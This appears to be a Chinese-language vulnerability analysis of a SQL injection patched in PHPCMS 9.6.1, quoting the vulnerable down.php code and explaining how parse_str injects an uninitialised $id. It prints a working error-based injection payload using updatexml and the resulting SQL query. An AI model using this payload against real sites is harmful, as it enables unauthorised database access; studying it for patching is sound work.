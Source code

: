 在9.6.1版本的补丁中，修复了两个安全漏洞(任意文件上传和sqql注入) , 我们先来学习以下sql注入漏洞的产生


漏洞产生的地方在`/phpcms/modules/content/down.php`文件中:

```php
public function init() {
	$a_k = trim($_GET['a_k']);
	if(!isset($a_k)) showmessage(L('illegal_parameters'));
	$a_k = sys_auth($a_k, 'DECODE', pc_base::load_config('system','auth_key'));
	if(empty($a_k)) showmessage(L('illegal_parameters'));
	unset($i,$m,$f);
	parse_str($a_k);
	if(isset($i)) $i = $id = intval($i);
	if(!isset($m)) showmessage(L('illegal_parameters'));
	if(!isset($modelid)||!isset($catid)) showmessage(L('illegal_parameters'));
	if(empty($f)) showmessage(L('url_invalid'));
	$allow_visitor = 1;
	$MODEL = getcache('model','commons');
	$tablename = $this->db->table_name = $this->db->db_tablepre.$MODEL[$modelid]['tablename'];
	$this->db->table_name = $tablename.'_data';
	$rs = $this->db->get_one(array('id'=>$id));	
	$siteids = getcache('category_content','commons');
	$siteid = $siteids[$catid];
	$CATEGORYS = getcache('category_content_'.$siteid,'commons');
	
	...
}
```


用sys_auth解密get传入的a_k参数，然后调用parse_str函数去变量解析， parse_str函数至少存在三个问题:

```
1. 带入未初始化的数据
2. 可以进行url编码
3. 变量覆盖漏洞
```

phpcms 这个sqli注入漏洞就利用了parse_str函数的前两个漏洞，首先$id未初始化，可以通过parse_str函数带入， 其次parse_str函数可以将%27转换为单引号

```php
$a_k = "{"aid":0,"src":"&id=%27 and updatexml(1,concat(1,(user())),1)%23&modelid=1&catid=1&m=1&f=","filename":""}"
$catid = "1"
$f = "","filename":""}"
$id = "' and updatexml(1,concat(1,(user())),1)#"
```

如上是经过parse_str函数解析后的参数，可以看到`%27` 被解析成了单引号

最后$id被带入数据库查询导致sql注入产生:`$rs = $this->db->get_one(array('id'=>$id));	`

拼接后的sql语句为:

    SELECT * FROM `phpcmsv9`.`v9_news_data` WHERE `id` = '' and updatexml(1,concat(1,(user())),1)#' LIMIT 1 
